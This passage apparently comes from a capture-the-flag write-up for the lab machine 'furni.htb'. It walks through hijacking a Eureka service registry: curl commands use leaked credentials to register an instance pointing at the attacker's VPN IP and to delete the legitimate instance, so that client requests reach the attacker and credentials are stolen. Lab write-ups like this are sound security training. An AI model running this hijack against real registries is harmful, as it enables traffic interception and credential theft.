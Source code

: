 ```mermaid
graph LR
    A[Client Requests] --> B[Eureka Server]
    B --> C[Attacker's Instance]
    C --> D[Malicious Actions:<br/> Credential Theft]
```


After understanding the flow of the attack, we can perform the following curl commands:

```bash
curl -u EurekaSrvr:0scarPWDisTheB3st http://furni.htb:8761/eureka/apps/USER-MANAGEMENT-SERVICE > instance.xml
```

After getting the configuration, we need to modify both the `hostname` and the `ipAddr` to our vpn IP:

![](cybersecurity/images/Pasted%2520image%252020250619162353.png)

Now, we can register our instance:

```bash
curl -u EurekaSrvr:0scarPWDisTheB3st \
     -H "Content-Type: application/xml" \
     -d @instance.xml \
     -X POST http://furni.htb:8761/eureka/apps/USER-MANAGEMENT-SERVICE
```

After that, we need to delete the other instance:

```bash
curl -su EurekaSrvr:0scarPWDisTheB3st \
     -X DELETE \
     "http://furni.htb:8761/eureka/apps/USER-MANAGEMENT-SERVICE/localhost:USER-MANAGEMENT-SERVICE:8081"
```

But if that's too much of a hassle, we can simply use this command:

```bash
curl -X POST http://EurekaSrvr:0scarPWDisTheB3st@furni.htb:8761/eureka/apps/USER-MANAGEMENT-SERVICE -H 'Content-Type: application/json' -d '{
  "instance": {
    "instanceId": "USER-MANAGEMENT-SERVICE",
    "hostName": "10.10.14.234",  
    "app": "USER-MANAGEMENT-SERVICE",
    "ipAddr": "10.10.14.234",
    "vipAddress": "USER-MANAGEMENT-SERVICE",
    "secureVipAddress": "USER-MANAGEMENT-SERVICE",
    "status": "UP",
    "port": { "$": 8081, "@enabled": "true" },
    "dataCenterInfo": {
      "@class": "com.netflix.appinfo.InstanceInfo$DefaultDataCenterInfo",
      "name": "MyOwn"
    }
  }
}'
```
